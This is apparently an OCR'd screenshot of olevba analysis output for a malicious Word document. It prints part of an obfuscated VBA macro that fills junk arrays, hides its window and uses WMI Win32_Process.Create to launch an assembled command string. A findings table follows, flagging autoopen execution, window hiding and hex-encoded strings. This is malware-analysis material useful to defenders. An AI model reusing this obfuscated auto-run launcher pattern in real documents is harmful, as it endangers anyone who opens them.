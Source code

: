           v47952(4) = "408871251" + "540064544"
    S19851. _
    ShowWindow = vbFalse - vbFalse
       Dim Q5954219()
          ReDim Q5954219(5)
          Q5954219(0) = "273197614" + "108278373"
          Q5954219(1) = "59680272" + "206794860"
          Q5954219(2) = "596328425" + "957730347"
          Q5954219(3) = "75404614" + "406869143"
          Q5954219(4) = "580567595" + "143116109"
    Set A165533 = GetObject(CStr("Winmgmts:Win32_ProcesS"))
       Dim A658103()
          ReDim A658103(5)
          A658103(0) = "137479618" + "926490507"
          A658103(1) = "309241433" + "916751420"
          A658103(2) = "272206738" + "422731081"
          A658103(3) = "714085446" + "650175884"
          A658103(4) = "78890792" + "916197776"
    A165533.Create J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607
       Dim r3891144()
          ReDim r3891144(5)
          r3891144(0) = "869990301" + "602729851"
          r3891144(1) = "6485658" + "501545638"
          r3891144(2) = "102647218" + "600955191"
          r3891144(3) = "842200192" + "762280068"
          r3891144(4) = "31891335" + "242008746"
    End Sub

    -------------------------------------------------------------------------------
    VBA MACRO W85356.vba
    in file: cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 - OLE stream: u'Macros/VBA/W85356'
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    (empty macro)
    +----------+--------------------+---------------------------------------------+
    |Type      |Keyword             |Description                                  |
    +----------+--------------------+---------------------------------------------+
    |AutoExec  |autoopen            |Runs when the Word document is opened        |
    |Suspicious|ShowWindow          |May hide the application                     |
    |Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
    |          |                    |used to obfuscate strings (option --decode to|
    |          |                    |see all)                                     |
    |Hex String| d$#                |20642423                                     |
    |Hex String|f3Q%                |66335125                                     |
    |Hex String|"R6c                |22523663                                     |
    |Hex String|%(X0                |25285830                                     |
    |Hex String|CISg                |43495367                                     |
    |Hex String|5R5"                |35523522                                     |
    |Hex String|Yc(B                |59632842                                     |
    +----------+--------------------+---------------------------------------------+

